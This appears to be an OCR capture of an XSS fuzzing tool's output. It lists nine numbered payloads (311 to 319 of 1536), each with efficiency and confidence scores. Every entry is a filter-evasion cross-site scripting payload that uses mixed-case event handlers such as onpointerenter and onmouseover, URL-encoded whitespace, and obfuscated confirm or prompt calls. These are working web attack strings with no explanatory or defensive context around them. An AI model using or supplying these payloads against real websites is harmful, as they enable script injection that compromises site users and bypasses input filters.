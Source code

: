 ------------------------------------------------------------
 Payload: <DETailS%09onPOIntEReNteR%0d=%0d(confirm)()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 311/1536
 
------------------------------------------------------------
 Payload: <d3V/+/oNPOIntERENTER%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 312/1536
 
------------------------------------------------------------
 Payload: <a/+/onMOuSEOvEr%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 313/1536
 
------------------------------------------------------------
 Payload: <detAIlS%0aOnpoinTeRENTER%0a=%0a[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 314/1536
 
------------------------------------------------------------
 Payload: <a/+/OnmoUseOvEr+=+[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 315/1536
 
------------------------------------------------------------
 Payload: <a/+/OnmouseOVeR%0d=%0dconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 316/1536
 
------------------------------------------------------------
 Payload: <d3V%0aOnpoiNtErENTer+=+(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 317/1536
 
------------------------------------------------------------
 Payload: <a%0dOnPOintEReNTEr%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 318/1536
 
------------------------------------------------------------
 Payload: <A/+/oNMoUsEoVER%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 319/1536
 